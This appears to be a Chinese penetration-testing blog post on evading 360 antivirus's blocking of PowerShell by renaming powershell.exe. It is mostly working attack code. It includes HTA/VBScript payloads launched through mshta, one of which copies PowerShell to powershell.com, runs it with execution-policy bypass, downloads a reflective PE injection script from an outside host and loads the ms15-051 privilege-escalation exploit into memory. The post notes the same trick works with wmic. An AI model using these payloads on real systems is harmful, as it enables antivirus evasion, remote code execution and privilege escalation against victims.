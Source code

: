 ```yaml
---
title: "绕过 360 对 PowerShell 的拦截"
date: 2019-08-06T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['360','powershell','bypass']
categories: ['内网渗透','bypass']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



360 不拦截 PowerShell 本身的执行, 拦截的是其它进程对 powershell.exe 的调用.

以 mshta 为例.

<!--more-->

默认执行命令的 Payload.

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "powershell.exe"
self.close
</script>
<body>
</body>
</HEAD> 
</HTML> 
```

很显然是会被拦截的.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806151651.png)

利用一点小 trick.

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Dim fso
Set fso = CreateObject("Scripting.FileSystemObject")
fso.CopyFile "C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe", "C:/Windows/Temp/powershell.com", True
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "C:/Windows/Temp/powershell.com -ep bypass -nop -c ""IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1:8000/Invoke-ReflectivePEInjection.ps1');Invoke-ReflectivePEInjection -PEUrl http://192.168.1.1:8000/ms15-051.exe -ExeArgs whoami;cmd /c pause"""
self.close
</script>
<body>
</body>
</HEAD> 
</HTML> 
```

我们把位于系统目录中的 powershell.exe 复制到 Temp 目录下并重命名为 powershell.com, 然后通过 powershell.com 执行命令.

这里使用的是远程加载 PE 文件至内存中执行.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806151831.png)

并不会被拦截.

实测中将程序改为任意其它文件名再执行都能够绕过 360 的拦截.

原因很简单, 360 把文件名写死了.

wmic 同理.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806151929.png)

修改后.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806152108.png)
